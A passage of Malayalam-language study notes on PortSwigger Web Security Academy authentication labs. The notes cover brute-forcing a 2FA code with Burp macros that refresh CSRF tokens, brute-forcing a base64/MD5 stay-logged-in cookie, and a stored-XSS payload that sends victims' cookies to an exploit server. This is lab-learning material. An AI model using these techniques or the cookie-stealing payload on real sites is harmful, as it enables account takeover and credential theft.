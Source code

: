 -->ivide namuk carlos aayi aan kerendath.username,passwd und but 2fa otp kode kitanula email illa.ividuthe prathyekatha enthennal otp code rand ivalid attemp chythal nammal nere login page ilek redirect aakum.so pinem username,passwd adich keriyale attemp chyan patu.ith thane aan namal exploit chyunath.athyath rand pravisham attemp chythal automatic aayi login page ilek pokunath kondthane namuk macros use chyth aa csrf token update chytha mathi apol oro attempt ilum token update aakum so account lock out aakila.
-->ivide csrf token use chyunund so again namal login chyathe burp il poi bruteforce chythal invalid csrf token ennu kanikum so namude main agenda ennth thane csrf token update chyuka enathan athum bruteforce in badhikathe
-->so aadyam carlos:montoya adich keruka enit enthengilum otp kodukuka ini burp->proxy->histrory il namuk oru requestum kanam.ithil main aayi 3 request und ie,
       1) GET /login - namal website il login form request chyunath
	   2) POST /login - username,password adich adutha step ilek kerunath
	   3) GET /login2 - namuk puthiya session kitunu
ee moon request vechan nammal macros undakunath
-->so adyam project optionil pokuka select session scope il poi include all urls select chyuka.ini add click chyth run a macro enn kodukuka enit ee moon requst select chyth ok kodukuka enit test macro click chyth GET /login2 in ninum epozhum kanikarulla enter 4 digit pin enn response il kanikunundo enn nokuka angane kanikunundengil macros work chyununden artham.ini muthal automatic aayi session aayikolum lock out aakila
-->ini http history il poi POST /login2 in ninum nerethe namal enthgilum otp adikan paranjile aa request select chyth intruder il aakuka enit token parameter select chyuka
-->payload type numbers select chyuka 0-9999 akuka min,max lenth 4 akuka.min max fraction digit 0 kodukuka
-->resource pool il poi concurrent request 1 kodukuk.delay oru 100 kodukuka ini start attack kodukuka


### 3)Vulnerabilities in other authentication mechanisms:

                  Lab-10(Brute-forcing a stay-logged-in cookie)
-->ivide namuk web appil ninum exit ayalum login chyan aayi stay logged in function thannitund so namal ath click chythitan kerunathengil namuk  stay-loggded-in enna cookie il save aayi kidakum
-->so inspector tab il cookie option il ninum manasilakan ith base64 ecoded aanen
-->so aa base64 decoder il poi decode chyuka apol - weiner:--some md5hash-- enn kanikum
-->aa md5 hash namude password aano en kandethuka.yes athuthanne
-->cookie il password ital namuk ath exploit chyan patum
-->so base64(username:md5hash of pssword) enna format il aan ee cookie undakunath
-->ini aa request intruderil iduka enit ee stay-logged-in enn cookie ile aa base64 add koduthit payload il poi namude password wordlist kodukuka
-->start attack kodukunathin mumb athe format il nammal karyangl kodukanam enale nadaku.so ivide aadyam 1)base64 decode chyunu 2)pine username: kodukunu 3)pine md5 hash aakunu so ath namal reverse aayi payload processing ena optionil koduknama ie,first mdf has aakanam second add prifix koduth username carlos: ennakodukanam thirdly base64 encode en koduthit venam attack chyan.resultil onnil mathram length vere undakum ath aan carlos ine stay-logged-in cookie so athile md5 decrypt chythal avante passwordum kitum.ok aayi
-->ith attacker in swanthamyi account undakan ulla avastha ulla karyama paranjath chila samayath attackerin account undakan patila so cookies kananum patila angane ulla sandharbhangalil xss polula bugs upyogich mattulavarude cookie edukuka enit aa cookie analize chyuka.

                     Lab-11(Offline password cracking)
-->ividem stay logged in feature und.so aa cookie eduth decrypt chythal nerthe pole base64(username:md5hashpasswd) aan ullath.ivde blog comment il stored xss vulnerability und so nammal portswigger inte thane oru exploit server use chyunu victims inte cookie kitan
  <script>document.location='//your-exploit-server-id.web-security-academy.net/'+document.cookie</script>
-->ith comment il adich it save chyuka enit eploit server il access log adikuka apol aa page visit chytha victims inte cooke kitum.so aa cookie base64 decode chyth hash decrypt chythal password kitum
-->ini aa pssword vech carlos aayi login chyth carlos inte account delete chyuka.aayi
